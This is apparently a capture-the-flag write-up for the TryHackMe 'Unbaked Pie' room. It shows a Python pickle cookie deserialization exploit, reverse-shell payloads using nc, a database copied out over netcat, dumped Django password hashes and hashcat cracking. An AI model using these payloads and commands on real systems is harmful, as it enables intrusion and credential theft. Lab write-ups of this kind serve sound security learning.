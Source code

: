# Unbaked Pie

![image](https://user-images.githubusercontent.com/5285547/135349199-38047830-0a14-4914-b35e-962103097322.png)

Room link: https://tryhackme.com/room/unbakedpie

## Enumeration

Nmap 

Starting my enumration with an nmap scan as usual, after a long scan only one port comes back to me, filemaker!?

```
PORT     STATE SERVICE
5003/tcp open  filemaker
```

## Port 5003

![image](https://user-images.githubusercontent.com/5285547/135356072-c5ced1a8-8140-42df-8d63-4ba43fe176ff.png)

Seems to be a website all about pickles and pickle products. 
Typing in the wrong path gave lots of info back from the host. 

![image](https://user-images.githubusercontent.com/5285547/135356353-88a8b03a-fc30-4a43-9643-41d5aa543eac.png)

![image](https://user-images.githubusercontent.com/5285547/135356371-a2862edc-20e7-4789-aed5-5fcc8afecab0.png)

## Pickle (python) (Decode)

Looking about the web app I notice in burp suite the request headers also point to python

![image](https://user-images.githubusercontent.com/5285547/135357480-734281a9-a09f-4af8-b86c-b90da5b7beb5.png)

When using the search feature on the site we can see a cookie being set (maybe also being deseralised) 

![image](https://user-images.githubusercontent.com/5285547/135357550-509b26c2-4449-459f-b1f8-fbcdb70a6985.png)

Set-Cookie

```
gASVCgAAAAAAAACMBmFzZGFzZJQu
```

Decoding the cookie value using python pickle

![image](https://user-images.githubusercontent.com/5285547/135357609-2b7aee9e-905f-486a-9064-e6b40d8b3c4f.png)

```
import pickle
import base64


string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
string_val = base64.b64decode(string_val)
d = pickle.loads(string_val)
print(d)
```

## RCE (Encode)

Using this [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) article which helps to get a better understanding of the python pickle rce. We can craft a payload to work here. 

Original RCE code

```
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

## Root (container)

Editing the code we can get RCE via the serilization. 

```
import pickle
import base64


#string_val = b"gASVCgAAAAAAAACMBmFzZGFzZJQu"
#string_val = base64.b64decode(string_val)
#d = pickle.loads(string_val)
#print(d)

import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('nc -e /bin/sh IP PORT')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

```
python3 pickl3.py
b'gASVOgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB9uYyAtZSAvYmluL3NoIDEwLjguMTUzLjEyMCA5OTk5lIWUUpQu'
```

Swapping the cookie and calling /search (GET) we can get the code exection. 

![image](https://user-images.githubusercontent.com/5285547/135358609-2ad8541c-2223-466d-96b0-64f1262c1875.png)

After getting on we can update our shell. 

```
python3 -c "import pty;pty.spawn('/bin/bash')"
stty raw -echo;fg
reset
xterm
```

Now we can enumerate again to find more information. 

## Enumeration 2

In the /root folder in .bash_history we find some juicy data

```
nc
exit
ifconfig
ip addr
ssh 172.17.0.1
ssh 172.17.0.2
exit
ssh ramsey@172.17.0.1
exit
cd /tmp
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
chmod +x check-config.sh
./check-config.sh 
nano /etc/default/grub
vi /etc/default/grub
apt install vi
apt update
apt install vi
apt install vim
apt install nano
nano /etc/default/grub
grub-update
apt install grub-update
apt-get install --reinstall grub
grub-update
exit
ssh ramsey@172.17.0.1
exit
ssh ramsey@172.17.0.1
exit
ls
cd site/
ls
cd bakery/
ls
nano settings.py 
exit
ls
cd site/
ls
cd bakery/
nano settings.py 
exit
apt remove --purge ssh
ssh
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh=*
apt remove --purge autoremove openssh-*
ssh
apt autoremove openssh-client
clear
ssh
ssh
ssh
exit
```
We can see ramsey logging into ssh on ip: 172.17.0.1

In /home/site we find an intresting file called db.sqlite3. Lets get it on our box and see what secrets it holds! 

```
# our box
nc -lnvp 8082 > db.sqlite3 

# attack box
nc 10.8.153.120 8082 < db.sqlite3
```

Now lets go through the file. 

```
sqlite3 db.sqlite3

SQLite version 3.36.0 2021-06-18 18:36:39
Enter ".help" for usage hints.
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions

sqlite> select * from auth_user;

1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
12|pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=|2020-10-03 10:44:10.758867|0|ramsey|||0|1|2020-10-02 14:42:44.388799|
13|pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=|2020-10-02 14:42:59.192571|0|oliver|||0|1|2020-10-02 14:42:59.113998|
14|pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=|2020-10-02 14:43:15.187554|0|wan|||0|1|2020-10-02 14:43:15.102863|
```

Now we can crack the hash's for these accounts. 

```
pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=:aniqfakhrul
pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=:testing
pbkdf2_sha256$216000$hyUSJhGMRWCz$vZzXiysi8upGO/DlQy+w6mRHf4scq8FMnc1pWufS+Ik=:ramsey
pbkdf2_sha256$216000$Em73rE2NCRmU$QtK5Tp9+KKoP00/QV4qhF3TWIi8Ca2q5gFCUdjqw8iE=:oliver
pbkdf2_sha256$216000$oFgeDrdOtvBf$ssR/aID947L0jGSXRrPXTGcYX7UkEBqWBzC+Q2Uq+GY=:wan
```

Cracking with hashcat
```
hashcat -a 0 -m 10000 hash /usr/share/wordlists/rockyou.txt -O  
```

Only one was cracked (testing)

```
pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=:lala12345
```
